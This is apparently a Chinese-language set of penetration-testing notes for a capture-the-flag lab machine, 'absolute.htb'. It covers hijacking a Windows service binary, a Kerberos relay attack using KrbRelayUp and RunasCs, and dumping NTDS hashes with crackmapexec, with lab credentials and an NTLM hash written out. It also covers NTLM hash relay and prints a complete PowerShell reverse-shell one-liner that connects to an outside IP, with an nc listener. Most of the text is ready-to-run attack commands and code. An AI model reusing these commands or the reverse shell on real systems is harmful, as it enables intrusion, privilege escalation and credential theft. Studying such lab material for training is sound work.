 ```powershell
move C:\Program Files\MilleGPG5\GPGService.exe C:\programdata\GPGService.exe
move C:\programdata\rev.exe C:\Program Files\MilleGPG5\GPGService.exe
rlwrap nc -lvvp 2233
Restart-Service GPGOrchestrator
```


### Kerberos Relay Attack
https://github.com/cube0x0/KrbRelay
```bash
必须满足： 没有2022年10月补丁 ， 禁用LDAP签名 。
crackmapexec ldap absolute.htb -u m.lovegod -p 'AbsoluteLDAP2022!' -k -M ldap-checker   (检查ldap签名)
```

发现 OXID 解析器的可用端口
```
*Evil-WinRM* PS C:\programdata> .\CheckPort.exe 
[*] Looking for available ports..
[*] SYSTEM Is allowed through port 10
```

查找版本号
```
*Evil-WinRM* PS C:\programdata> cmd /c ver
Microsoft Windows [Version 10.0.17763.3406]
```
https://www.gaijin.at/en/infos/windows-version-numbers

**RunasCs** 是一个实用程序，用于使用与用户当前登录使用显式凭据提供的权限不同的权限来运行特定进程。该工具是 Windows 内置 runas.exe 的改进开放版本，解决了一些限制
https://github.com/antonioCoco/RunasCs/

从登录类型表里筛查，尝试 NewCredentials ，编号9
https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types
```bash
.\RunasCs.exe m.lovegod 'AbsoluteLDAP2022!' -d absolute.htb 'C:\Users\winrm_user\desktop\KrbRelayUp.exe full -m shadowcred --ForceShadowCred -cls 3c6859ce-230b-48a4-be6c-932c0c202048' -l 9
```

```powershell
./r.exe asktgt /user:DC$ /certificate:<certificate> /password:<passowrd> /getcredentials /show /nowrap
```

crackmapexec 转储 ntds
```powershell
crackmapexec smb absolute.htb -u 'DC$' -H A7864AB463177ACB9AEC553F18F42577 --ntds
```

### Net-NTLMv2 Relay Attack
假设我们获得了 Net-NTLMv2 哈希，但由于它太复杂而无法破解它 , 以尝试在**另一台机器**上使用哈希值，这就是所谓的中继攻击。
**举个例子就是通过 responder -I tun0 -A 获得的 NTLMhash 无法破解，即可用 hash 中继来获得 shell**
**rev.ps1**
https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.170',2233);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
修改代码后建立本地服务器并建立监听 `python -m http.server 80`
